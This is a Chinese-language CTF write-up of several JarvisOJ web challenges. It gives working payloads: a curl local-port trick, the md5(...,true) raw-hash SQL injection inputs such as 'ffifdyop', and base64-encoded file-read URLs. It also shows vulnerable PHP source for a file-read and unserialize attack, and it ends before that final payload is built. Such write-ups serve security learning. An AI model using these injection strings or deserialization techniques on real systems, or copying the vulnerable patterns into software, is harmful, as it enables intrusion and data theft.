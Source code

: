 # 对CTF-Web的记录与总结 #

### 使用本地的某个端口号对网址进行访问 ###

[例题:JarvisOJ PORT51](http://web.jarvisoj.com:32770/)

curl 参数 --local-port RANGE  强制使用的本地端口号

***payload***
`curl --local-port 51 http://web.jarvisoj.com:32770/`

(在做题的时候貌似出了问题 没有回显)

### php中md5($str,true)注入 ###

[例题:JarvisOJ Login](http://web.jarvisoj.com:32772/)

```
Hint: "select * from `admin` where password='".md5($pass,true)."'"
```

关键在于md5函数的第二个参数为true

- TRUE - 原始 16 字符二进制格式
- FALSE - 默认 32 字符十六进制数

例如输入为: `asdf` 时

得到md5为 `912ec803b2ce49e4a541068d495ab570` 这是false的情况

得到的16字符为 `.È²ÎIä¥AIZµp` 这是true的情况

当转换出的字符能够进行sql注入时即可提取flag

当输入为`129581926211651571912466741651878684928`或`ffifdyop`均能得到flag

```
129581926211651571912466741651878684928
md5: 06da5430449f8f6f23dfc1276f722738
ascii: ÚT0Do#ßÁ'or'8
```

```
ffifdyop
md5: 276f722736c95d99e921722cf9ed621c
ascii: 'or'6É]é!r,ùíb
```

### 神盾局的秘密 ###

[例题:JarvisOJ 神盾局的秘密](http://web.jarvisoj.com:32768/)

`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`

显然存在文件读取漏洞，并且文件名进行了base64加密

尝试对showimg.php进行读取，构造payload

`http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=`

得到空白页面，查看源代码

```
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

限制了对上级目录以及pctf的直接读取，尝试读取index.php，构造payload

`http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw`

查看源代码

```
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
```

查看shield.php源代码
```
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```
显然存在反序列化漏洞

利用反序列化漏洞构造payload去读取pctf.php
